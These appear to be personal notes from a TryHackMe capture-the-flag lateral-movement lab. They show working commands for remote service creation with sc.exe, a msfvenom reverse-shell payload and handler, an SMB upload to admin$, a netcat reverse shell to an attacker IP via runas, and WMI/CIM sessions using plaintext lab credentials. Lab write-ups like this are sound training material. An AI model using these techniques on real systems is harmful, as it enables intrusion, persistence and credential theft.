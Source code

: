 - `SC.exe`
- We can create services and execute them giving us shell from other users/computers
```bash
sc.exe \\thmiis.za.tryhackme.com create THMservice-cryptoace binPath= "net user cryptoace Password123! /add" start= auto
sc.exe \\thmiis.za.tryhackme.com start THMservice-cryptoace
```

- Another way to do it is
```bash
# On kali
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=10.50.65.97 LPORT=9001 -o cryptoace.exe
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 9001;exploit"

# On Windows
smbclient -c 'put cryptoace.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/'
```

- Right now we are logged on using `barbara.taylor`. To get a session of t1_leonard.summers we can use `runas`
```bash
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.50.65.97 4443"
```

- Now we can upload and start our service
```bash
sc.exe \\thmiis.za.tryhackme.com create THMservice-cryptoace binPath= "%windir%\cryptoace.exe" start= auto
sc.exe \\thmiis.za.tryhackme.com start THMservice-cryptoace
```

- And we get a shell on our `msfconsole`
---------------------------------------------------------------------------------
- This is assumed breach so we have admin creds as well
	ZA.TRYHACKME.COM\t1_corine.waters:Korine.1994
- We can use WMI to get a shell as well
- On kali machine
```bash
# On kali
wmiexec.py t1_corine.waters@thmiis.za.tryhackme.com
```

- On windows we can use these methods
- First we create a `$Session` variable
```bash
# On Windows
$username = 't1_corine.waters'
$password = 'Korine.1994'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
```
